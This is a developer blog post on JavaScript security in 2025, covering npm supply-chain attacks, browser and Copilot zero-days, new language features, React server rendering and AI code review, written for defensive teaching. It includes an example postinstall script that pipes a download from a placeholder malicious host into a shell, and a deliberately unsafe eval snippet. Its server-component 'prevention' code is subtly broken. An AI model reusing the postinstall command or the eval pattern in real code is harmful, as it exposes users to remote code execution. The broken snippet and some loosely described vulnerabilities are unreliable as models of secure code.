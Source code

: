 ```yaml
---
title: "JavaScript Security Attacks and Bugs Every Developer Must Know in 2025"
description: "Explore the most critical JavaScript threats, latest bugs, and practical mitigations for 2025. Learn real-world examples, code vulnerabilities, and how modern tools—including AI—can help you build safer apps."
keywords: "JavaScript security 2025, React attacks, AI for code security, zero-day exploits, JS bugs, modern web threats, developer best practices"
---
```


# JavaScript Security Attacks and Bugs Every Developer Must Know in 2025

In 2025, the web is more powerful—and riskier—than ever. Modern JavaScript features, cutting-edge frameworks, and rapid ecosystem changes boost developer productivity but also introduce new attack surfaces and security pitfalls. This deep dive covers the latest attacks, notable vulnerabilities in popular packages, and actionable tips (with code) to secure your next React or Node.js project.

## Why JavaScript Security in 2025 Is a Top Priority

- **Zero-day bugs are escalating**: Major browsers and leading npm packages face critical vulnerabilities exploited shortly after release.
- **Modern JS = More Attack Vectors**: Server-side rendering (SSR), server components (RSC), AI-driven UIs, and new Set methods add complexity and risks.
- **Developers are targets**: Popular open-source dev tools are increasingly attacked, not just user-facing apps.

## 1. Recent Major Attacks Impacting Developers

### a. Supply Chain Attacks & Package Bugs
The npm ecosystem remains a prime target. In June 2025, multiple zero-day vulnerabilities struck popular web frameworks and package managers, with malicious code injected into build pipelines.

**Example: Malicious Package Install Script**
```javascript
// Malicious postinstall script example in an npm package
"scripts": {
  "postinstall": "curl -s https://malicious-server.com/payload.sh | sh"
}
```
- **Mitigation**: Lock dependencies with `npm ci`, use `npm audit` (link: https://docs.npmjs.com/cli/v10/commands/npm-audit), and consider GitHub’s Dependabot (link: https://docs.github.com/en/code-security/dependabot) for auto-vulnerability detection. Always review third-party packages before installing.

### b. Zero-Day Vulnerabilities in Browsers & JS Engines
- **Google Chrome (CVE-2025-5419)**: The third actively exploited zero-day in 2025, leveraging new JS engine features for privilege escalation (link: https://chromereleases.googleblog.com/2025/07/stable-channel-update-for-desktop.html).
- **Microsoft Copilot (CVE-2025-32711)**: Known as "EchoLeak," this zero-click data exfiltration via prompt injection in a widely used developer tool was patched quickly after disclosure (link: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-32711).

### c. Exploits Targeting Frameworks
- **WordPress Theme "Motors" (CVE-2025-4322)**: A privilege escalation bug hijacked admin accounts, driven by vulnerable JS plugin code failing to validate user input (link: https://wordpress.org/news/2025/07/security-release/).

## 2. New JavaScript Features & Potential Pitfalls

2025 introduces new ECMAScript features, but missteps can heighten risks:

### Modern RegExp `/v` Flag
- **What’s New**: Enables advanced Unicode features like intersection, union, and string matching.
- **Code Example**:
  ```javascript
  // Safe usage example
  let emojiPattern = /\p{RGI_Emoji}/v;
  let result = emojiPattern.test("Hello 😄"); // true if emoji detected
  ```
- **Warning**: Sanitize user-supplied regex patterns to prevent ReDoS (Regular Expression Denial of Service) attacks (link: https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS).

### Promise.try()
- **Feature**: Catches sync exceptions in promise chains.
- **Pitfall**: Overuse can mask errors if not handled explicitly.
  ```javascript
  function safeCompute() {
    return Promise.try(() => possiblyUnsafeFunc())
      .catch(err => { 
        // Handle error appropriately!
        console.error(err); // Replace with proper logging
      });
  }
  ```

### Node, Deno, and Bun Divergence
2025 sees growing runtime divergence, causing compatibility and breakage bugs in cross-platform packages (link: https://nodejs.org/en/blog/2025/01/runtime-trends).

## 3. The Role of React and Modern UI Attacks

### Server Components & SSR
- **Trend**: React 19 and Next.js adopt Server Components, reducing client bundle size by shifting logic server-side (link: https://nextjs.org/blog/next-15).
- **Attack Angle**: SSR endpoints can expose sensitive data or internal APIs if not isolated.
- **Prevention Example**:
  ```javascript
  // Server Component fetch
  export default function DashboardData() {
    // NEVER expose API keys or secrets from here!
    const stats = fetch('/api/admin-stats', { headers: { 'Authorization': `Bearer ${process.env.API_TOKEN}` } });
    return <div>{stats}</div>;
  }
  ```

### Real-World Exploit
- **Case**: Several 2025 attacks exploited React apps by injecting malicious JavaScript through misconfigured SSR endpoints, leading to data leaks (link: https://react.dev/blog/2025/security-updates).

## 4. Leveraging AI for Proactive Defense
AI coding assistants (GitHub Copilot, Codeium, TabNine) now flag insecure code, detect outdated npm packages, and assist with secure Express/React endpoints (link: https://github.com/features/copilot, https://codeium.com/blog/ai-security).

**Example: Using AI to Spot Bad Practices**
```javascript
// AI tools auto-flag use of unsafe eval()
function runUserScript(input) {
  eval(input); // AI warning: Security risk—code injection possible!
}
```
- **Best Practice**: Avoid `eval` on user input; use AI-powered code reviews (link: https://tabnine.com/blog/ai-code-security).

## 5. Key Defensive Coding Practices
- **Lock dependencies**: Use exact versions in `package.json` and `npm ci`.
- **Run audits**: Regularly execute `npm audit` and act on advisories (link: https://docs.npmjs.com/cli/v10/commands/npm-audit).
- **Enforce CSP**: Implement Content Security Policy on all web assets (link: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).
- **Avoid direct user input**: Exclude user data in RegExp, `eval`, or dynamic imports.
- **Secure SSR endpoints**: Validate all incoming requests (link: https://nextjs.org/docs/app/building-your-application/securing-your-app).
- **Leverage AI tools**: Use static analysis for peer code review.

## Also Read
- [Leveraging AI for Proactive App Security Monitoring in 2025](https://ome9a.com/blogs/leveraging-ai-for-proactive-app-security-monitoring-in-2025-6887ab48006af5fb73e8ccf4)
- [Analyzing the Tea App Breach: Cybersecurity Lessons for Developers in 2025](https://ome9a.com/blogs/analyzing-the-tea-app-breach-cybersecurity-lessons-for-developers-in-2025-688525fb5e0c80382f5d0f8a)
- [Securing JavaScript Applications with Content Security Policy (CSP) in 2025](https://ome9a.com/blogs/securing-javascript-applications-with-content-security-policy-csp-in-2025-687f43a6cbecc7f0227e0fe6)

## Challenges
- **Rapid Evolution**: Keeping up with new JS features and vulnerabilities is demanding.
- **Tool Dependency**: Over-reliance on AI or third-party tools can introduce risks.
- **User Education**: Developers need training to spot subtle security issues.

## Conclusion
As JavaScript evolves rapidly in 2025, so do its attack surfaces—from zero-day exploits to supply chain attacks via npm packages. Understanding these threats and applying preventive measures like dependency locking, secure SSR, cautious feature integration, and AI tools can keep your projects secure while delivering modern experiences.

**Stay curious, stay secure, and keep shipping clean code.**

## Call to Action
Defend your projects in 2025: Use modern tools, stay aware of new JavaScript features, and treat every dependency as a potential risk. Have a story about a recent bug or attack? Share on X at [@omegaStrikes](https://x.com/omegaStrikes) with #JS2025—let’s strengthen the developer community together!
